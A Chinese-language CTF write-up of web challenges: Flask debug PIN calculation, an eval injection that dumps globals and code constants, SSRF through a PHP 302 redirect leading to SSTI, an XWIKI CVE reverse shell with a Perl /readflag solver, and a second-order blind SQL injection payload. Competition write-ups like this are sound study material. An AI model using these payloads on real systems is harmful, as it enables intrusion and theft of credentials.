


## simpleflask


和以往的flask不一样的地方在于, 这里是经过更新后的flask, 计算pin码的方式已经和以前不一样了, 参考 https://www.chainnews.com/articles/898433701852.htm, 不过问题不大,就把machine-id拼接在docker那一串东西的前面就可以了, 需要注意的是每十分钟重启时候的机器mac地址是会变化的.

<!--more-->


## ezflask


点击看到代码

```python
# -*- coding: utf-8 -*- 
from flask import Flask, request 
import requests 
from waf import * 
import time 

app = Flask(__name__) 
@app.route('/ctfhint') 
def ctf(): 
    hint =xxxx # hints 
    trick = xxxx # trick 
    return trick 
    
@app.route('/') 
def index(): 
    # app.txt 
    
@app.route('/eval', methods=["POST"]) 
def my_eval(): 
    # post eval 
    
@app.route(xxxxxx, methods=["POST"]) # Secret 
def admin(): 
    # admin requests 
    # 
if __name__ == '__main__': 
    app.run(host='0.0.0.0',port=8080)
```

发现``" ' [ ( ``都被过滤了, 简直离谱

```
eval=ctf.__globals__
```

来查看ctf函数所处在的命名空间下所能接触到的变量和函数

```
{'my_eval': <function my_eval at 0x7fb525c35dd0>, 'app': <Flask 'app_1'>, 'waf_eval': <function waf_eval at 0x7fb525c35c50>, 'admin': <function admin at 0x7fb525b7f650>, 'index': <function index at 0x7fb525c35d50>, 'waf_ip': <function waf_ip at 0x7fb525c35b50>, '__builtins__': <module '__builtin__' (built-in)>, 'admin_route': '/h4rdt0f1nd_9792uagcaca00qjaf', '__file__': 'app_1.py', 'request': <Request 'http://124.70.206.91:10003/eval' [POST]>, '__package__': None, 'Flask': <class 'flask.app.Flask'>, 'ctf': <function ctf at 0x7fb525c35cd0>, 'waf_path': <function waf_path at 0x7fb525c35bd0>, 'time': <module 'time' from '/usr/local/lib/python2.7/lib-dynload/time.so'>, '__name__': '__main__', 'requests': <module 'requests' from '/usr/local/lib/python2.7/site-packages/requests/__init__.pyc'>, '__doc__': None}
```

发现了admin_route, 然后那里是可以发起一个对外请求的, 经过测试发现``127.0.0.1``和``0.0.0.0``及其变形都会触发警告并退出, 盲猜这里考察的是302重定向, 在服务端那里写下

```php
<?php
    header("Location: http://127.0.0.1:8080/");
?>
```

ssrf成功, 但是下一步干嘛呢? 

``__code__``, 函数的代码块

``__code__.co_consts`` 代码块中的所有常量的元组, 参考https://docs.python.org/3/library/inspect.html

```
eval=ctf.__code__.co_consts
```

```

(None, 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->', 'too young too simple')
```

然后通过302重定向访问127.0.0.1:5000, 是一个常规的ssti,再次重定向




## XWIKI

找到了CVE, 然后根据例子反弹shell后发现有一个二进制文件, 会给你很多选择题比较大小的, 到这里就做不出来了, 不过看到其他选手的脚本, 这里记录一下.

```perl

use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```


## carefuleyes

在改名的地方进行二次注入

```
sd' or if(substr((select group_concat(username) from user where privilege='admin'),1,1)='X',exp(5000),1)#
```

得到用户名和密码之后进行序列化登陆就可以了


